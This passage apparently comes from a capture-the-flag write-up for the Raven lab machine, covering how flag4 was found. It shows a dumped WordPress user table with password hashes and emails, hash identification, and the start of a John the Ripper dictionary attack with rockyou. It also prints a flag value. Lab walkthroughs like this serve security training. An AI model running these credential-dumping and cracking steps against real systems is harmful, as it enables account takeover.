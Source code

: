 >**Security Issues**
>
>> - [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)
>> - [Security Misconfiguration](https://owasp.org/www-project-top-ten/2017/)
# Finding Flag4
  
  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}


      **Method Used**
      -  Further enumeration of the wordpress database we were able to get some usernames and hashes from the wp_users table.
```
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+--------------
```
- Already having access to micheals account we focused on stevens credentials.     

 - `steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
 - Figuring out the hash type may help in our attempts to crack it I will run it in hash-identifier.
 ```
 root@Kali:~# hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #                                                               
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #                                                               
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #                                                               
   #                                                             By Zion3R #                                                               
   #                                                    www.Blackploit.com #                                                               
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```
- The hash appears to be a `MD5(Wordpress)`
- john the ripper should be able to automatically determine the hashtype without setting the format so we will run it 
against the rockyou wordlist using dictoanry attack with the hopes it has appeared in a previous breach.
```
root@Kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
```